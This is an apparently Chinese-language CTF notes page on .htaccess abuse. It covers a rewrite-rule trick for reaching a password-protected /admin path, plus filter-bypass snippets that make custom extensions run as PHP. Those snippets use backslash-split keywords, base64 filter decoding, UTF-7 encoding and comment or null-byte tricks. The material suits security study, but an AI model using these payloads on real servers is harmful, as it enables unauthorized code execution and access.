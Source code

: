 ```
Tokyo Westerns / MMA CTF 2nd 2016应用
题目要求访问/admin，但访问需要登录密码（是在Apache中设置的），但是密码破解难度极大，并且不存在其他绕过技巧（maybe）;只有.htaccess重定向绕过的方法可行

RewriteCond %{REQUEST_FILENAME} !-f
RewriteRule ^ index.php [QSA,L]
然后访问 /index.php/admin， 即可达到访问 /admin 的效果，同时绕过Apache的密码

注：
RewriteRule ^ index.php [QSA,L]
标签 [QSA,PT,L]
QSA：表示保留参数如get传值?xxx==xx…；
PT：再把这个URL交给Apache处理；
L：作为最后一条；

```

## .htaccess的shell

[参考链接](https://github.com/wireghoul/htshells)

## Bypass方式

> 
一、关键字检测<br/> （1） 如果过滤了.htaccess常用的关键字，此时可以使用反斜线来绕过对关键字的过滤，反斜线后需要加上换行符，并且反斜线前和关键字无空格<br/> （2）如果检测不能含有&lt;?等php字符串，那么此时可先将shell字符串进行编码，然后在文件包含时通过php://filter解码<br/> （3）通过UTF-7、UTF-16等进行编码


```
（1）
AddT\
ype application/x-httpd-php .abc

```

```
（2）
AddType application/x-httpd-php .abc
php_value auto_append_file php://filter/convert.base64-decode/resource=1.abc

```

```
（3）
AddType application/x-httpd-php .aaa
php_flag zend.multibyte 1
php_value zend.script_encoding "UTF-7"

之后将后缀.aaa文件的内容进行相应编码即可

```

> 
二、拼接无用字符串<br/> （1）可以使用#来注释掉后面拼接的多余内容，#需要和前面的内容隔一个空格，并且#只能注释一行内容，可以使用反斜线来转义换行符，从而注释多行内容<br/> （2）除了#外，0x00也可以当注释符，使用write.php脚本写入.htaccess
